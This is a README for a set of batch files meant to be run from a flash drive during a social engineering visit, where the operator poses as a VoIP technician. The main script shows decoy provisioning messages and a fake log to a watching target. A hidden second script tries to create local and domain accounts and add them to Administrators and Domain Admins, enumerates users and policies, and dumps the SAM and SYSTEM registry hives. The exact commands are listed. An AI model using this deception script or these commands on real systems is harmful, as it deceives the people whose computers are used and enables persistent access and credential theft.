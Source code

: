 # soc-eng-batches
Batch files to show dummy activity while gathering system info and trying to create users. Useful during social engineering, if a target will let you use their system, but watches you do so.

# Setup
These batches are intended to be put on a flash drive.
* Place **run.bat** on your flash drive.
  - This batch displays the dummy information and creates the dummy log, while calling the malicious batch and directing its output.
  - This was written for the social engineering pretext of being a VoIP technician. Feel free to customize the ECHO messages and dummy commands to match your cover story.
* In the same directory level as **run.bat**, create the directories **drivers** and **logs**.
* Place **framework.cmd** in the **drivers** directory.
  - This is the malicious batch, which is called by run.bat.
  - See the variables **strLOCALUSER**, **strDOMUSER**, and **strMYPASS**. These values will be used when the malicious batch attempts to create local and domain user accounts.

# Usage
* Follow the setup instructions to load the batches onto your flash drive.
* Once you've convinced the target to let you use their computer, run *run.bat*.
  - Try to run it with elevated privileges, as some steps like exporting SAM and SYSTEM files will require them.

### What the target sees over your shoulder:
* A command prompt displays *"Provisioning VOIP SIP client..."*.
* After a few moments, the prompt displays "*Ready for connectivity test. Press any key to continue...*".
* A traceroute (`tracert -d -w 99 8.8.8.8`) will run at the terminal.
* A dummy log file will open in notepad.
  - This dummy log was created as **logs/[computername]-log.txt**.
  - This dummy log contains the output of `route print` and `tracert -d -w 99 8.8.8.8`, while ran in between the "Provisioning" and "Ready" messages.
  - You can kill a few moments pretending to read through this file while the command prompt quietly does something else in the background.
* The prompt will close a few moments after the log file had opened.

### What happens in the background:
* After the dummy log file had opened, **run.bat** called **drivers/framework.cmd**, while directing all of its ouput to **drivers/[computername]-log.txt**.
* **framework.cmd** does the following:
  - Echo the date and time
  - Get the username with `whoami`
  - Get password and account lockout settings with `net accounts`
  - Try to create a local user account (`net user /add [username] [password]`)
  - Try to add that local user to the local Administrators group (`net localgroup /add administrators [username]`)
  - Get a list of local users (`net user`)
  - Get a list of local admins (`net localgroup administrators`)
  - Try to create a domain user accounts (`net user /add [username] [password] /domain`)
  - Try to add that domain user to the Domain Admins group (`net group /add "domain admins" [username] /domain`)
  - Get a list of domain users (`net user /domain`)
  - Get a list of domain admins (`net group "domain admins" /domain`)
  - Get Group Policy settings (`gpresults /z`)
    - This sometimes takes a few moments.
  - Get routing information (`route print`)
  - Get services information (`net start`)
  - Attempt to get SAM and SYSTEM files
    - `reg save hklm\system [frameworkpath]/[computername]-system.dat`
    - `reg save hklm\sam [frameworkpath]/[computername]-sam.dat`
